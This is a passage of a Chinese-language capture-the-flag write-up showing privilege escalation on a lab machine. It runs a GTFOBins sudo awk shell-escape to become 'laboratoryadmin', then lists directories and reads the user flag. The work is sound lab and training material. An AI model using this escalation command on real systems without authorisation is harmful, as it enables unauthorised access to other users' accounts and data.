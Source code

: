 ### 尝试提升至laboratoryadmin

利用https://gtfobins.github.io/gtfobins/awk/给出的方法提权到`laboratoryadmin`用户

```bash
sudo -u laboratoryadmin awk 'BEGIN {system("/bin/sh")}'
```

然后搜寻flag：

```text
pmccentral@laboratoryuser:~$ sudo -u laboratoryadmin awk 'BEGIN {system("/bin/sh")}'
$ whoami;id
laboratoryadmin
uid=1002(laboratoryadmin) gid=1002(laboratoryadmin) groups=1002(laboratoryadmin)
$ ls -la
total 44
drwxr-xr-x 7 pmccentral pmccentral 4096 Dec 17 13:24 .
drwxr-xr-x 4 root       root       4096 Dec 17 15:34 ..
-rw------- 1 pmccentral pmccentral  304 Dec 17 18:18 .bash_history
-rw-r--r-- 1 pmccentral pmccentral  220 Dec 16 14:41 .bash_logout
-rw-r--r-- 1 pmccentral pmccentral 3771 Dec 16 14:41 .bashrc
drwx------ 2 pmccentral pmccentral 4096 Dec 17 13:24 .cache
drwxrwxr-x 2 pmccentral pmccentral 4096 Dec 16 14:43 desktop
drwxrwxr-x 2 pmccentral pmccentral 4096 Dec 17 15:37 documents
drwxrwxr-x 2 pmccentral pmccentral 4096 Dec 16 14:43 downloads
drwxrwxr-x 3 pmccentral pmccentral 4096 Dec 16 14:42 .local
-rw-r--r-- 1 pmccentral pmccentral  807 Dec 16 14:41 .profile
$ cd /home
$ ls
laboratoryadmin  pmccentral
$ cd laboratoryadmin
$ ls -la
total 52
drwx------ 8 laboratoryadmin laboratoryadmin 4096 Dec 18 16:15 .
drwxr-xr-x 4 root            root            4096 Dec 17 15:34 ..
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4096 Dec 18 20:16 autoScripts
-rw------- 1 laboratoryadmin laboratoryadmin   74 Dec 18 20:17 .bash_history
-rw-r--r-- 1 laboratoryadmin laboratoryadmin  220 Dec 17 15:29 .bash_logout
-rw-r--r-- 1 laboratoryadmin laboratoryadmin 3771 Dec 17 15:29 .bashrc
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4096 Dec 17 15:34 desktop
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4096 Dec 17 15:34 documents
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4096 Dec 17 15:34 downloads
drwxr-xr-x 2 laboratoryadmin laboratoryadmin 4096 Dec 17 15:34 home
drwxrwxr-x 3 laboratoryadmin laboratoryadmin 4096 Dec 17 15:30 .local
-rw-r--r-- 1 laboratoryadmin laboratoryadmin  807 Dec 17 15:29 .profile
-rw-r--r-- 1 laboratoryadmin laboratoryadmin   33 Dec 18 16:15 user.txt
$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

### 信息搜集
